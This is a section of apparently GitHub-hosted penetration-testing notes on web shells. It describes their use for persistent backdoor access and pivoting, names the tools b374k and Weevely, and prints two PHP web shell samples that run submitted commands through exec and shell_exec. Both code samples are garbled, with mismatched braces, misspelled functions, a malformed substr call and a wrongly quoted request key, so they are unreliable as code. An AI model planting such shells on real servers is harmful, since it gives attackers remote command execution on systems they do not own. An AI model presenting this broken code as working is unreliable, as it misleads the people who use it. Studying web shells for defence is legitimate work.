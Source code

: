 ## <a name="8.3"></a>8.3 Explore web shells
* Web Shells
	* Malicious script used by an attacker with the intent to escalate and maintain persistent access on an already compromised web application.
	* Persistent Remote Access.
		* A web-shell usually contains a backdoor which allows an attacker to remotely access and possibly control a server at any time.
	* A web-shell can be used for pivoting inside or outside a network.
		* b374k is of one kind and check the create shell in previous chapter.
		* Weevely (brute force sql and many more).
		* Creating a custom shell.
			* Requires command execution.
			* Form handling.
			* Conditionals.
			* Focus.
			###  Example
			* First create a form with post and submit.
			### Php form
				<?php
					if($_POST['command'])
					{
						if($_POST['out']."\n";{
							if(stren($out)>2000)
							{
								$out=substr($out,strlen($out,strlen($out) - 2000,2000);
							}
						}
						$out.=">($_POST['command'])\n";
						exec($_POST['command'],$data);$out.=implode("\n",$data);
					}
				?>
				
			
			
			### Basic php shell
				
				<html>
				<head>
				<title>Simple PHP Shell</title>
				</head>
				<body>
				<form action="shell.php" method = post>
				<input type ="text" name="c"/>
				<input name="submit" type=submit value="command">
				</form>
				<?php
					if(isset($_REQUEST['submit'])){
						$c=$_REQUEST['$c']
						$output = shell_exec("$c");
						echo "<pre>$output</pre>\n";
					}
				?>
				</body>
				</html>
